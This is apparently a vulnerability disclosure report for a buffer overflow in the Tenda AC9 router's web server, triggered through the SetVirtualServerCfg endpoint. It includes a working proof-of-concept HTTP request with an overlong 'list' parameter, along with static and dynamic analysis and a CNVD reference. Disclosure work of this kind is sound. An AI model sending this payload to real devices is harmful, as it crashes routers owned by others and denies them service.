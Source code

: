 # Tenda AC9 0day Vulnerability report

## 1、Basci information

vendor: Tenda

product: AC9 and so on

version: V1.0V15.03.05.19（6318）、V3.0V15.03.06.42_multi and so on

Vulnerability type: buffer overflow

Vulnerability Effect: Denial of Service

## 2、Principle description of vulnerability technology

Affected Vulnerability Components:
- File name: bin/httpd
- function: router virtual service setting

## 3、Vulnerability value

Stable reproducibility: Yes

exploit conditions：
- attack vector type: neighboring network
- Stability of exploit: every attack can be successful
- Whether the product is configured by default: there are loopholes in the functional components that are enabled at the factory

## 4、PoC

```
POST /goform/SetVirtualServerCfg HTTP/1.1
Host: 192.168.56.102
Proxy-Connection: keep-alive
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.61 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh-TW;q=0.9,zh;q=0.8,en-US;q=0.7,en;q=0.6
Cookie: password=lqetgb
Content-Length: 821
    
list=1,1,1,AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
```

## 5、Vulnerability principle

### 5.1 static analysis

After static analysis, the call chain of the function is as follows

```
formSetVirtualSer
  sub_763EC
    sscanf(v23, "%[^,]%*c%[^,]%*c%[^,]%*c%s", &v15, &v13, &v11, &v9) == 4
```

The vulnerability code is shown in the following figure. Because there is no restriction on the parameters passed in by the user, the user can pass in too long malicious data to the `list` parameter, which leads to buffer overflow and eventually causes the effect of denial of service

The detailed procedure is that the function `formSetVirtualSer(int a1)` corresponding to `/goform/SetVirtualServerCfg` receives the parameters from the outside, and at the same time, another function `sub _763ec (inta1, char *a2, unsigned _int8 a3)` is called inside this function, and `sscanf` is used to handle the outside

![](imgs/stack4/code1.PNG)

### 5.2 dynamic analysis

Accident scene when error is triggered

![](imgs/stack4/debug1.PNG)

After debugging, it can be found that the program made an error after executing ` ldr3, [PC, #0x114] ` with address 0x767f4. The reason is that the value of register PC changed into maliciously injected data, which caused the program to execute an illegal instruction and finally caused the program to crash

![](imgs/stack4/debug2.PNG)

## 6、CNVD reference 

[CNVD reference](https://www.cnvd.org.cn/flaw/show/CNVD-2021-24948)